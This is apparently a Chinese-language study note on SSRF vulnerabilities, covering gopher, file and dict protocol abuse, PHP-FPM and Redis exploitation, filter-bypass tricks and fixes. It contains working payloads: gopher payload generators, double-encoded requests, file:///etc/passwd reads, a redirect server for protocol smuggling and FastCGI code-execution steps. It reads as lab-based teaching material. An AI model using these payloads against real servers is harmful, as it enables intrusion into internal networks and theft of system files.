# 漏洞原理

`SSRF`（Server-Side Request Forgery，服务器端请求伪造）是一种**由攻击者构造请求，利用服务器端发起请求**的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而外网隔离的内部系统）。	 


# 漏洞危害

- 内网主机，端口，服务等信息收集
- file协议读取本地文件
- 攻击内网的应用程序及服务


# 常见场景

- 下载图片、下载文件等下载处；
- 文件预览、图片预览等获取图片、文件内容处；
- 在线识图，在线文档翻译，分享，订阅等；
- 根据远程URL上传，静态资源图片等；
- 数据库的内置功能，比如mongodb的copyDatabase函数；
- URL关键字中，比如：source，share，link，src，imageurl，target等；


From 国光师傅的ssrf靶场拓扑图


> 172.72.23.21 这个服务器的 Web 80 端口存在 SSRF 漏洞，并且 80 端口映射到了公网的 8080，此时攻击者通过这个 8080 端口可以借助 SSRF 漏洞发起对 172 目标内网的探测和攻击。


# 漏洞利用

检测到存在SSRF漏洞后

- 探测主机存活情况
- 探测存活主机端口情况
- 根据端口情况尝试攻击

**注意点**

攻击的数据需要经过两次URL编码，因为数据是先到达有SSRF漏洞的主机，再通过SSRF漏洞转交给内网其他主机处理。


## 常用协议介绍

### curl

> **cURL**是一个利用URL语法在命令行下工作的文件传输工具。
>
> 它的名字就是客户端（client）的 URL 工具的意思。

`curl -v www.baidu.com`

-v：显示请求头和响应头


`curl -V`



可以看到支持的协议如下

| **dict**  | **file**   | **ftp**     | **pop3** | **pop3s** |
| --------- | ---------- | ----------- | -------- | --------- |
| **ftos**  | **gopher** | **gophers** | **rtmp** | **rtsp**  |
| **http**  | **https**  | **imap**    | **scp**  | **sftp**  |
| **imaps** | **ldap**   | **ldaps**   | **smb**  | **smbs**  |
| **smtp**  | **smtps**  | **telnet**  | **tftp** | **mtt**   |


### gopher

> gopher 协议是一个在http 协议诞生前用来访问Internet 资源的协议可以理解为http 协议的前身或简化版，支持发出GET、POST请求，可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。


- 坑点

```shell
┌──(khaz㉿kali)-[~/桌面]
└─$ curl gopher://localhost:2222/khaz%0atest%0ahaha 
```

```shell
┌──(khaz㉿kali)-[~/桌面]
└─$ nc -lvp 2222
listening on [any] 2222 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 50546
haz
test
haha
```

会发现接收到的消息是分行的，而且第一行只接收到了haz，k被‘吃掉’了。

所以在使用gopher协议时**需要在url后加入一个任意字符**才行。

- get/post请求

  > 1、构造HTTP数据包
  >
  > 2、URL编码、替换回车换行为%0d%0a,
  > 3、发送gopher协议

  注意HTTP数据包中必须要有下面四个请求头

```text
POST /1.php HTTP/1.1
Host: 192.168.244.128
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
  
a=khaz
```

```python
import urllib.parse
#转换脚本
uri = '/flag.php'
host = '127.0.0.1:80'
content = 'key=90bb4d9d9946905d6d9d68358d7c0360'
content_length = len(content)


test =f"""POST {uri} HTTP/1.1
  Host: {host}
  Content-Type: application/x-www-form-urlencoded
  Content-Length: {content_length}
  
  {content}"""

first = urllib.parse.quote(test)#url编码

second = first.replace('%0A','%0D%0A')# \n → \r\n

third = urllib.parse.quote(second)

payload = 'gopher://{}/_'.format(host)+third+"%0D%0A" #gopher协议会吃掉url后面的第一个字符

print(payload)
```

  例子

  - 通过命令发起

```php
//1.php kali
<?php echo "Hello".$_POST['a'];
```

```php
  gopher://192.168.244.128:80/_POST%20/1.php%20HTTP/1.1%0D%0AHost%3A%20192.168.244.128%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%206%0D%0A%0D%0Aa%3Dkhaz%0D%0A
```

  

  - 通过curl函数发起--两次url编码

    ```php
    //ssrf.php  windows
    <?php 
    function curl($url){  
        //创建一个新的curl资源  
        $ch = curl_init();  
        //设置URL和相应的选项  
        curl_setopt($ch,CURLOPT_URL,$url);  
        curl_setopt($ch,CURLOPT_HEADER,false);  
        //抓取URL并把它传递给浏览器  
        curl_exec($ch);  
        //关闭curl资源，并且释放系统资源  
        curl_close($ch);
    }
    $url = $_GET['url'];
    curl($url);
    ?>
    ```

    直接用通过命令发起的payload（一次url编码），发现无回显

    ```php
    ?url=gopher://192.168.244.128:80/_POST%20/1.php%20HTTP/1.1%0D%0AHost%3A%20192.168.244.128%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%206%0D%0A%0D%0Aa%3Dkhaz%0D%0A
    ```

    

    

    再次进行url编码后发送，发现是可以回显的。

      ```php
    ?url=gopher%3A%2F%2F192.168.244.128%3A80%2F_POST%2520%2F1.php%2520HTTP%2F1.1%250D%250AHost%253A%2520192.168.244.128%250D%250AContent-Type%253A%2520application%2Fx-www-form-urlencoded%250D%250AContent-Length%253A%25206%250D%250A%250D%250Aa%253Dkhaz%250D%250A
      ```


    	
    

### http/https

探测Web 应用的信息情况


### file

读取本地文件

```shell
file:///etc/passwd    
file:///etc/hosts     # 记录本机的或其他主机的ip及其对应主机名

# 高权限
file:///proc/net/arp  # 记录ARP协议内容，里面有主机的ip和mac地址
file:///etc/network/interfaces # 大部分网络接口配置
```


### dict

探测端口服务

https://blog.51cto.com/u_15127673/4130760

> dict 协议是一个在线网络字典协议，用来架设字典服务的。
>
> 它是基于TCP协议开发的，所以像 mysql 的服务，因为也是基于 tcp 协议开发，所以用 dict 协议的方式打开能强行读取一些 mysql 服务的返回内容

```php
<?php
$url = "dict://localhost:3306"; //3306端口是mysql服务

$ch = curl_init($url);
curl_exec($ch);
curl_close($ch);
?>
```

```php
>>
PS D:\phpstudy_pro\phpstudy_pro\WWW\test> D:/phpstudy_pro/phpstudy_pro/Extensions/php/php7.3.4nts/php.exe "d:\phpstudy_pro\phpstudy_pro\WWW\test\2.php"

J
5.7.26U'+I2J%mkwB"M)7     Imysql_native_password!#08S01Got packets out of order
```

可以看到5.7.26和mysql




​    

## 利用案例

### Fastcgi

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html?page=2#reply-list

https://www.freebuf.com/articles/web/263342.html

- FPM是什么

> 当我们的web服务器收到请求php文件的请求时，就让php-fpm把其解释(翻译)成html格式的文件(事实上php-fpm正是干这个事的)，然后我们的web服务器将翻译出来的.html文件发给浏览器。
>
> 而php-fpm能够进行翻译依靠的就是Fastcgi通信协议。



- 漏洞成因

  > PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。
  >
  > fastcgi协议传输的数据其实就是PHP环境变量的一部分。
  >
  > 通过设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

- 使用条件

  > PHP服务器开启fastcgi的端口9000
  >
  > 能够找到PHP服务器上的php文件

- 利用

  [exp](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

  - 监听端口：`nc -lvp 9000>1.txt`

  - 使用exp：`python fpm.py -c "payload" -p 9000 127.0.0.1 php文件路径`

  - 将生成的1.txt进行双url编码：`python 1.py`

    ```python
    #1.py
    import urllib.parse
    f = open(r'1.txt','rb')
    s = f.read()
    s = urllib.parse.quote(s)
    s = urllib.parse.quote(s)
    print("gopher://127.0.0.1:9000/_"+s)
    ```

  - 利用得到的结果进行攻击

    


### redis

- resp协议，换行分割/x0a/x0d
- gopher协议可以构造数据包
- weblogic的CRLF注入

[ssrf与gopher与redis - sijidou - 博客园 (cnblogs.com)](https://www.cnblogs.com/sijidou/p/13681845.html)

[weblogic从ssrf到redis获取shell - qianxinggz - 博客园 (cnblogs.com)](https://www.cnblogs.com/qianxinggz/p/13405443.html)


### mysql

https://paper.seebug.org/510/


# bypass

## IP地址变形绕过IP过滤不当

Demo



绕过：IP地址变形

- IP地址的数字形式

  ```php
  <?php
  $ip = '127.0.0.1';
  $ip = explode('.',$ip);
  $r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
  if($r < 0) {    
      $r += 4294967296;
  }
  echo "十进制:".$r."\n";
  echo "八进制:0".decoct($r)."\n";
  echo "十六进制:0x".dechex($r);
  ?>
  ```

- ip地址省略形式

  可以省略ip地址中间的0，如127.1 == 127.0.0.1

  

- 本地地址127.0.0.1等价

  ```bash
  127。0。0。1
  [::1]  # IPV6
  localhost
  127.233.233.233
  Linux下127.0.0.1与0.0.0.0指向同一个地址
  ```


## URI解析不当绕过



http://baidu.com@khaz.top  =>  http://khaz.top

> 只解析最后一个@后面的域名



http://khaz.top#baidu.com => http://khaz.top


[总结](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery)

## 重定向绕过协议限制

python脚本

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/')
def redirect_request():
    # 从请求参数中获取 ip, port, scheme, data，如果缺失则置为空字符串
    ip = request.args.get('ip', '')
    port = request.args.get('port', '')
    scheme = request.args.get('s', '')
    data = request.args.get('data', '')

    # 构造重定向的 URL
    if scheme == 'file':
        redirect_url = f"{scheme}://{data}"
    else:
        redirect_url = f"{scheme}://{ip}:{port}/{data}"

    print(redirect_url)
    # 返回重定向响应
    return redirect(redirect_url)

if __name__ == '__main__':
    # 启动 Flask 应用，绑定到 0.0.0.0 和端口 8888
    app.run(host='0.0.0.0', port=8888, debug=True)

```

302.php

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```


## DNS Rebinding绕过不恰当的域名解析验证



- 知道创宇在线

  http://ceye.io/dns-rebinding

  

  

- 同一个域名绑定两条A记录。这样解析是随机的。 

  自己的服务器：

  

  > 需要多试几次，碰运气。
  >
  > 当服务器第一次解析出来是个外网ip，第二次解析出来是个内网ip的时候攻击就成功了

- 自建

  https://xz.aliyun.com/t/7495#toc-6

  


## url中的unicode欺骗

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```


# 漏洞修复

- 禁止重定向跳转
- 设置URL白名单（限制可以访问的URL）
- 禁止不需要的协议
- 限制端口
- 鉴权，如cookie，jwt等，当攻击者只能控制一个url时，而无法添加这些请求头时，就无法访问某些接口
- 校验了其他http header字段时，如referer，UA等


# 参考文章

https://www.wangan.com/articles/1238#59315b

https://zhuanlan.zhihu.com/p/112055947

https://joychou.org/web/phpssrf.html#directory0811578052187574410

https://www.sqlsec.com/2021/05/ssrf.html